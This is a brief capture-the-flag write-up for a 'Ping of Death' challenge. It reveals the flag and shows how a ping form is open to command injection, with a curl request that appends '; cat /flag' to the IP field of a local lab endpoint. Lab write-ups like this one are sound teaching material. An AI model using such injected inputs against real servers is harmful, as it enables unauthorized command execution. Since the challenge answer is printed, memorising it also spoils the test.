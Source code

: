 # Ping of Death

**Description:** Some kid joined my Minecraft server and threatened that they were going to DDoS me using this dodgy website. In the end they just pinged my server, but I am 99% certain you can do a lot more with that website. Can you hack the dodgy website and read the flag at `/flag` on the server?

You should be able to figure out a way to run the command `cat /flag`!

**Flag:** CTF{sCr1pTI3_k1Dd1e5_c4nN0t_pR0gRaM_aNyThIng!!11one!}

## Solution

* The target input is vulnerable to command injection.

* Additional terminal commands can be appended using either `&&`, `||` or `;` as an example.

* Example curl command to print the flag

```bash
curl -XPOST -d 'ip=8.8.8.8; cat /flag' 'http://localhost:1337/pingtodeath.php'
```
